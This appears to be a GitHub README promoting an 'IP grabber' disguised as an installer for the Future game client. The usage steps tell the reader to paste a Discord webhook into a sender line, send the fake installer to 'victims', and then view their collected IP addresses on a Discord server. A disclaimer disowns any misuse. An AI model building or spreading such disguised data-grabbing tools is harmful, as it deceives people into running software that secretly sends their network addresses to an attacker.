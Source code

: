 <p align="center">
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/built-with-swag.svg" alt="forthebadge"/></a>
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/mom-made-pizza-rolls.svg" alt="forthebadge"/></a>
</p>


# Future-client-ip-grabber
If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
